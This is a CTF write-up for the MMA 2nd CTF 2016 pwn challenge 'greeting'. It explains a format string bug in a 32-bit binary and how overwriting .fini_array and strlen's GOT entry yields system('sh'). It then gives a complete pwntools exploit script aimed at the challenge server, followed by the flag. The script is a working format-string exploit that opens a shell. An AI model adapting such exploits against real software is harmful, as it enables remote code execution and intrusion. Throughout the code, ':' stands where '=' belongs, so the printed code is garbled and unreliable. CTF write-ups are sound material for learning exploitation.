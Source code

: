 ```yaml
---
type: ctf
title : MMA 2nd CTF 2016 - greeting
tags: [MMA 2nd CTF, greeting]
date : 2016-09-12
author: Eno Leriand
featuredImage: https://image.slidesharecdn.com/st-inoue-20161129-170702144917/85/mma-ctf-2016streamforensics-100-11-320.jpg?cb=1676790114
---
```


**Category:** pwn
**Points:** 150  
  
After a long period of time without playing any CTF, I finally finished my master's degree and have time to enjoy some CTF challenges. And then there is the **Tokyo Western/MMA 2nd CTF**, the first CTF I played in 2016.  
  
The challenge gave us a 32 bit ELF. The program will first use `system` to echo some message, then it will ask us to input our name, and print the greeting message. We can see that there exist a format string vulnerability in the main function:  
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    int result; // eax@2
    int v4; // edx@4
    int v5; // [sp+1Ch] [bp-84h]@2
    int v6; // [sp+5Ch] [bp-44h]@1
    int v7; // [sp+9Ch] [bp-4h]@1

    v7 : *MK_FP(__GS__, 20);
    printf("Please tell me your name... ");
    if ( getnline((char *)&v6, 64) )
    {
        sprintf((char *)&v5, "Nice to meet you, %s :)\n", &v6);
        result : printf((const char *)&v5); // <-- format string 
    }
    else
    {
        result : puts("Don't ignore me ;( ");
    }
    v4 : *MK_FP(__GS__, 20) ^ v7;
    return result;
}
```

As we can see that the program ends directly after it print out the greeting message, so it's kind of hard for us to do the GOT hijacking attack. After discussing with my teammate, we found that there's one more place we can overwrite the function pointer: **the `.fini_array` section**.  
  
So, we can first overwrite the **first entry** of the `.fini_array` section and hijack the control flow. Notice that we can only input 64 bytes characters, and that's kind of hard for us to write both `system`'s address and `sh`'s string into the memory buffer. Here's what we can do :  
  
* Overwrite both `.fini_array` section and `strlen`'s GOT entry. We replace the first entry of the `.fini_array` section into **main function's address**, while `strlen`'s GOT entry be changed into `system`'s PLT.  
* The program will then return to the main function. Since `strlen`'s GOT has already been changed into `system`'s address, we can then input `sh` and execute `system("sh")` during the `getnline` function (the function will call `strlen` on our input).  

```python exp_greeting.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST : "pwn2.chal.ctf.westerns.tokyo"
PORT : 16317
ELF_PATH : "./greeting"
LIBC_PATH : ""

# setting 
context.arch : 'i386'
context.os : 'linux'
context.endian : 'little'
context.word_size : 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level : 'INFO'

elf : ELF(ELF_PATH)

def my_recvuntil(s, delim):
    res : ""
    while delim not in res:
        c : s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def fmtstr(payload, prints, index, data, byte=1):
    """
    data: data that want to be written into the address
    index: stack position (ex. %7$n --> index : 7)
    prints: total charaters that have been print out
    payload: whole payload string, initial value are addresses

    ex.  payload : p32(addr) + p32(addr2) + p32(addr3)
         prints : 12
         payload, prints : fmtstr(payload, prints, 7, 0xa0a0, 2)
         payload, prints : fmtstr(payload, prints, 8, 0xc0, 1)
         payload, prints : fmtstr(payload, prints, 9, 0x08047654, 4)
    """

    if data - prints > 0:
        num : data - prints
    else:
        num : data + 256**byte - prints
        while(num <= 0):
            num += 256**byte
    
    payload += "%" + str(num) + "c" 
    prints : data

    if byte == 1:
        payload += "%" + str(index) + "$hhn"
    elif byte == 2:
        payload += "%" + str(index) + "$hn"
    elif byte == 4:
        payload += "%" + str(index) + "$n"
    elif byte == 8:
        payload += "%" + str(index) + "$lln"

    return payload, prints

def fmtstr_scan(cnt):
    return '.'.join( "%"+str(i)+"$p" for i in xrange(1,cnt+1))

if __name__ == "__main__":

    r : remote(HOST, PORT)
    #r : process(ELF_PATH)

    payload : "AA"+p32(0x08049934) + p32(elf.got['strlen']) + p32(elf.got['strlen']+2) 
    prints : len(payload) + 18
    payload, prints : fmtstr(payload, prints, 12, 0x85ed, 2)
    payload, prints : fmtstr(payload, prints, 13, 0x8490, 2)
    payload, prints : fmtstr(payload, prints, 14, 0x0804, 2)
    print payload
    print len(payload)

    r.sendlineafter("... ", payload)
    r.sendlineafter("... ", "sh\x00")

    r.interactive()
```
  
flag: `TWCTF{51mpl3_FSB_r3wr173_4nyw4r3}`
